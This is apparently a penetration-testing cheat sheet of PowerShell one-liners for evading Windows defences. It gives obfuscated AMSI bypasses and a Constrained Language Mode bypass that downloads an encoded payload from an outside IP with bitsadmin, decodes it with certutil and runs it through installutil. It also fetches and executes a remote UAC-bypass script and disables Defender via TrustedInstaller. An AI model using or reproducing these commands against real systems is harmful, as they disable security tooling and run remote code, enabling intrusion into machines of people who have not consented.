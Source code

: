 ```powershell
[Delegate]::CreateDelegate(("Func``3[String, $(([String].Assembly.GetType('System.Reflection.Bindin'+'gFlags')).FullName), System.Reflection.FieldInfo]" -as [String].Assembly.GetType('System.T'+'ype')), [Object]([Ref].Assembly.GetType('System.Management.Automation.AmsiUtils')),('GetFie'+'ld')).Invoke('amsiInitFailed',(('Non'+'Public,Static') -as [String].Assembly.GetType('System.Reflection.Bindin'+'gFlags'))).SetValue($null,$True)
```

```powershell
$a=[Ref].Assembly.GetTypes();Foreach($b in $a) {if ($b.Name -like "*iUtils") {$c=$b}};$d=$c.GetFields('NonPublic,Static');Foreach($e in $d) {if ($e.Name -like "*Context") {$f=$e}};$g=$f.GetValue($null);[IntPtr]$ptr=$g;[Int32[]]$buf = @(0);[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $ptr, 1);
```

##### CLM

```powershell
certutil -encode clm.exe enc5.txt 
```

```powershell
$ExecutionContext.SessionState.LanguageMode
```

```powershell
powershell -windowstyle hidden bitsadmin /Transfer newjob3 http://192.168.49.173/enc3.txt c:\\windows\\temp\\enc3.txt;certutil -decode c:\\windows\\temp\\enc3.txt c:\\windows\\temp\\bypass.exe;C:\\Windows\\Microsoft.NET\\Framework64\\v4.0.30319\\installutil.exe /logfile= /LogToConsole=false /U C:\\windows\\temp\\bypass.exe
```

##### Kill Defender via TrustedInstaller

```powershell
iex(new-object net.webclient).downloadstring('http://172.21.23.10/uacbypass.ps1');alt
.\wsudo -T powershell
.\fuckdefender.ps1
reboot
```

##### Java

```powershell
mshta file.hta
```

##### App Locker

```powershell
Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections 
```

##### Check PPL

```powershell
Get-ItemProperty -Path HKLM:\SYSTEM\CurrentControlSet\Control\Lsa -Name "RunAsPPL"
```
